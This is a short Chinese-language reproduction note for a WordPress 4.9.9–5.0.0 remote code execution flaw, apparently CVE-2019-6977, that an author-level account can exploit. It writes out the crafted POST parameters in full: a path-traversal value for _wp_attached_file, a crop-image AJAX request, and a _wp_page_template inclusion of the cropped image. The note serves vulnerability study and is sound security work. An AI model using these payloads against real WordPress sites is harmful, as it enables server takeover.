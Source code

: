 （CVE-2019-6977）WordPress 5.0 RCE
==================================

一、漏洞简介
------------

漏洞条件：拥有一个author权限的账号

二、漏洞影响
------------

影响包括windows、linux、mac在内的服务端，后端图片处理库为gd/imagick都受到影响，只不过利用难度有所差异。

其中，原文提到只影响release
5.0.0版，但现在官网上可以下载的5.0.0已经修复该漏洞。实际在WordPress
5.1-alpha-44280更新后未更新的4.9.9\~5.0.0的WordPress都受到该漏洞影响。

三、复现过程
------------

传图片

![](resource/(CVE-2019-6977)WordPress5.0rce/media/rId24.png)

改信息

![](resource/(CVE-2019-6977)WordPress5.0rce/media/rId25.png)

保留该数据包，并添加POST

    &meta_input[_wp_attached_file]=2019/02/2-4.jpg#/../../../../themes/twentynineteen/32.jpg

触发需要的裁剪

![](resource/(CVE-2019-6977)WordPress5.0rce/media/rId26.png)

裁剪

![](resource/(CVE-2019-6977)WordPress5.0rce/media/rId27.png)

同理保留改数据包，并将POST改为下面的操作，其中nonce以及id不变

    action=crop-image&_ajax_nonce=8c2f0c9e6b&id=74&cropDetails[x1]=10&cropDetails[y1]=10&cropDetails[width]=10&cropDetails[height]=10&cropDetails[dst_width]=100&cropDetails[dst_height]=100

触发需要的裁剪

![](resource/(CVE-2019-6977)WordPress5.0rce/media/rId28.png)

图片已经过去了

![](resource/(CVE-2019-6977)WordPress5.0rce/media/rId29.png)

包含，我们选择上传一个test.txt，然后再次修改信息，如前面

    &meta_input[_wp_page_template]=cropped-32.jpg

![](resource/(CVE-2019-6977)WordPress5.0rce/media/rId30.png)

点击查看附件页面，如果图片被裁剪之后仍保留敏感代码，则命令执行成功。

![](resource/(CVE-2019-6977)WordPress5.0rce/media/rId31.png)

四、参考链接
------------

> <https://www.freebuf.com/vuls/196514.html>
